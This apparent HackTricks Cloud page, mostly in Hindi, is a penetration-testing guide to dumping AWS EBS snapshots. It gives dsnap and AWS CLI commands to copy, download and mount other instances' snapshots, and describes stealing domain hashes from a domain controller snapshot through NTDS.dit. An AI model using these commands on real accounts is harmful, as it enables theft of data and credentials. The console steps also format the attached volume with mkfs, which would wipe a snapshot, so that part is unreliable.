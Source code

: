 # AWS - EBS Snapshot Dump

{{#include ../../../../banners/hacktricks-training.md}}

## एक स्नैपशॉट को स्थानीय रूप से जांचना
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
> [!CAUTION]
> **नोट** कि `dsnap` आपको सार्वजनिक स्नैपशॉट डाउनलोड करने की अनुमति नहीं देगा। इससे बचने के लिए, आप स्नैपशॉट की एक प्रति अपने व्यक्तिगत खाते में बना सकते हैं, और उसे डाउनलोड कर सकते हैं:
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
इस तकनीक के बारे में अधिक जानकारी के लिए मूल शोध देखें [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

आप इसे Pacu के साथ [ebs\_\_download_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs__download_snapshots) मॉड्यूल का उपयोग करके कर सकते हैं

## AWS में एक स्नैपशॉट की जांच करना
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
**इसे आपके नियंत्रण में एक EC2 VM में माउंट करें** (यह बैकअप की कॉपी के समान क्षेत्र में होना चाहिए):

चरण 1: EC2 –> वॉल्यूम पर जाकर आपके पसंद के आकार और प्रकार का एक नया वॉल्यूम बनाया जाना है।

इस क्रिया को करने के लिए, इन कमांड का पालन करें:

- EC2 इंस्टेंस से जोड़ने के लिए एक EBS वॉल्यूम बनाएं।
- सुनिश्चित करें कि EBS वॉल्यूम और इंस्टेंस एक ही जोन में हैं।

चरण 2: बनाए गए वॉल्यूम पर राइट-क्लिक करके "जोड़ें वॉल्यूम" विकल्प का चयन किया जाना है।

चरण 3: इंस्टेंस टेक्स्ट बॉक्स से इंस्टेंस का चयन किया जाना है।

इस क्रिया को करने के लिए, निम्नलिखित कमांड का उपयोग करें:

- EBS वॉल्यूम को जोड़ें।

चरण 4: EC2 इंस्टेंस में लॉगिन करें और कमांड `lsblk` का उपयोग करके उपलब्ध डिस्क की सूची बनाएं।

चरण 5: कमांड `sudo file -s /dev/xvdf` का उपयोग करके जांचें कि वॉल्यूम में कोई डेटा है या नहीं।

यदि उपरोक्त कमांड का आउटपुट "/dev/xvdf: data" दिखाता है, तो इसका मतलब है कि वॉल्यूम खाली है।

चरण 6: कमांड `sudo mkfs -t ext4 /dev/xvdf` का उपयोग करके वॉल्यूम को ext4 फाइल सिस्टम में फॉर्मेट करें। वैकल्पिक रूप से, आप कमांड `sudo mkfs -t xfs /dev/xvdf` का उपयोग करके xfs फॉर्मेट भी कर सकते हैं। कृपया ध्यान दें कि आपको या तो ext4 या xfs का उपयोग करना चाहिए।

चरण 7: नए ext4 वॉल्यूम को माउंट करने के लिए अपनी पसंद का एक डायरेक्टरी बनाएं। उदाहरण के लिए, आप "newvolume" नाम का उपयोग कर सकते हैं।

इस क्रिया को करने के लिए, कमांड `sudo mkdir /newvolume` का उपयोग करें।

चरण 8: कमांड `sudo mount /dev/xvdf /newvolume/` का उपयोग करके वॉल्यूम को "newvolume" डायरेक्टरी में माउंट करें।

चरण 9: "newvolume" डायरेक्टरी में डायरेक्टरी बदलें और वॉल्यूम माउंट को मान्य करने के लिए डिस्क स्पेस की जांच करें।

इस क्रिया को करने के लिए, निम्नलिखित कमांड का उपयोग करें:

- `/newvolume` में डायरेक्टरी बदलें।
- कमांड `df -h .` का उपयोग करके डिस्क स्पेस की जांच करें। इस कमांड का आउटपुट "newvolume" डायरेक्टरी में फ्री स्पेस दिखाना चाहिए।

आप इसे Pacu के साथ `ebs__explore_snapshots` मॉड्यूल का उपयोग करके कर सकते हैं।

## AWS में एक स्नैपशॉट की जांच करना (cli का उपयोग करके)
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
## Shadow Copy

कोई भी AWS उपयोगकर्ता जिसके पास **`EC2:CreateSnapshot`** अनुमति है, वह **डोमेन कंट्रोलर का स्नैपशॉट** बनाकर सभी डोमेन उपयोगकर्ताओं के हैश चुरा सकता है, इसे एक ऐसे इंस्टेंस पर माउंट करके जिसे वह नियंत्रित करता है और **NTDS.dit और SYSTEM** रजिस्ट्री हाइव फ़ाइल को Impacket के secretsdump प्रोजेक्ट के लिए निर्यात कर सकता है।

आप इस उपकरण का उपयोग हमले को स्वचालित करने के लिए कर सकते हैं: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) या आप स्नैपशॉट बनाने के बाद पिछले तकनीकों में से एक का उपयोग कर सकते हैं।

## References

- [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{{#include ../../../../banners/hacktricks-training.md}}
